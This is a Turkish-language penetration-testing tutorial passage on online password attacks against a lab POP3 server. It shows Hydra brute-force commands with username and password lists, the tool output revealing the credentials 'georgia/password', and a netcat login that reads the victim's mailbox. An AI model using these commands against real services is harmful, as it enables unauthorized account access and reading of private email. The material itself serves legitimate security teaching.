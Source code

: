 ##### Hydra ile Kullanıcı Adı ve Parola Öğrenme

Hedefimizdeki sistemde olabilecek kullanıcı adı ve parola listelerini oluşturduktan sonra, __Hydra__ ile artık onları öğrenmeye çalışabiliriz.

```ShellSession
root@kali:~# hydra -L userlist.txt -P passwordfile.txt 192.168.20.10 pop3
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2015-01-12 15:29:26
[DATA] 16 tasks, 1 server, 24 login tries (l:4/p:6), ~1 try per task
[DATA] attacking service pop3 on port 110
[110][pop3] host: 192.168.20.10 login: georgia password: password
[STATUS] attack finished for 192.168.20.10 (waiting for children to finish) 
1 of 1 target successfuly completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-01-12 15:29:48
```

Örneğimizde hydra aracına `-L` ile kullanıcı listesini `-P` ile parola listesini giriyoruz, ve önceden kurduğumuz Windows XP makinemizdeki POP3 için olabilecek giriş bilgilerini denemiş oluyoruz. Sonuç olarak, hydra _login: georgia, password: password_ olarak bulmuş oldu.

Bazı durumlarda, hedefimizdeki kullanıcın ismini bileceğimizden sadece parola listesini girmemiz yeterli olacaktır. Bunun için `-L` yerine `-l` ile o kullanıcın ismini giriyoruz. 

```ShellSession

root@kali:~# hydra -l georgia -P passwordfile.txt 192.168.20.10 pop3
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only 
[DATA] 16 tasks, 1 server, 24 login tries (l:4/p:6), ~1 try per task
[DATA] attacking service pop3 on port 110
[110][pop3] host: 192.168.20.10 login: georgia password: password
[STATUS] attack finished for 192.168.20.10 (waiting for children to finish)
1 of 1 target successfuly completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-01-07 20:22:23
```

Şimdi aldığımız sonuçları kullanarak, _georgia_ adlı kullanıcın mesajlarını okuyalım. POP3 protokolünü belirliyoruz, sonra kullanıcı adını ve parolası istendiğinde giriyoruz. 

```ShellSession
root@kali:~# nc 192.168.20.10 pop3
+OK POP3 server xpvictim.com ready <00037.23305859@xpvictim.com>
USER georgia
+OK georgia welcome here
PASS password
+OK mailbox for georgia has 0 messages (0 octets)
```

Unutmamız gereken şey, bazı sistemler, mesela _google mail_ belli bir hatalı giriş denemesinden sonra o hesabı askıya alır. Bazen deneme yaptığın IP adresi kara listeye atar. Bunu sisteme göre deneme aralıklarını ayarlanabilse de, genel sonuç olarak biraz uzun sürebilmektedir. Bunu aşmanın yolu ise bir sonraki bölümde öğreneceğimiz gerçek giriş denemesini yapmadan, şifreyi öğrenmeye çalışmaktır.

##### Çevrimdışı Saldırılar
